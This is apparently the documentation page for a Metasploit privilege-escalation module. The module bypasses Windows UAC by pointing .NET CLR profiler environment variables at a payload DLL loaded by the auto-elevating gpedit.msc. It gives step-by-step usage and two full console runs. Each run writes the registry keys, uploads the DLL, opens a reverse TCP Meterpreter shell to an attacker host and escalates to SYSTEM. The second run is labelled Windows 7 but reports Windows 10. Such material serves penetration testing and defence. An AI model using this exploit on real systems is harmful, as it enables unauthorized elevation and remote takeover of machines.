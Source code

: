 ## Introduction

Microsoft Windows allows for the automatic loading of a profiling COM object during
the launch of a CLR process based on certain environment variables ostensibly to
monitor execution.  In this case, we abuse the profiler by pointing to a payload DLL
that will be launched as the profiling thread.  This thread will run at the permission
level of the calling process, so an auto-elevating process will launch the DLL with
elevated permissions.  In this case, we use gpedit.msc as the auto-elevated CLR
process, but others would work, too.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_dotnet_profiler`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64

```
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] UUID = a47dbe47-41a6-42ed-95a0-e2cc4710a75a
[*] Writing  to HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.187
[*] Meterpreter session 5 opened (192.168.135.168:4444 -> 192.168.132.187:49234) at 2019-11-15 12:14:41 -0600
[*] Removing Registry Changes
[*] Deleting HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32 key
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : WIN7X64-SP1
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN7X64-SP1\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64
```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_dotnet_profiler 
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > set session 6
session => 6
msf5 exploit(windows/local/bypassuac_dotnet_profiler) > show options

Module options (exploit/windows/local/bypassuac_dotnet_profiler):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       6                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] UUID = d472ba96-3dfc-432c-8ad2-f44ada2a39ec
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 7 opened (192.168.135.168:4444 -> 192.168.132.125:49683) at 2019-11-15 12:18:54 -0600
[*] Removing Registry Changes
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
